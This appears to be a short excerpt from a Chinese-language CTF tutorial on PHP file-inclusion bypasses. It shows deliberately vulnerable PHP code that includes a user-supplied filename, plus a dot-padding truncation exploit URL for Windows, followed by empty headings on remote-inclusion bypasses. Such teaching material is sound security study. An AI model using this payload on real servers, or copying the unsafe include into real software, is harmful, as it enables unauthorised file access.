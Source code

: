 
**点号截断**

条件：windows OS，点号需要长于256

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

EXP:

```
http://www.ctfs-wiki.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```









### 3.	远程包含绕过



> 此处就不写关于远程包含绕过。详情可以去看此文最顶部的文章链接





#### 1.	无限制远程文件包含漏洞



#### 2.	有限制远程文件包含漏洞绕过

##### 1.	问号绕过

##### 2.	#号绕过

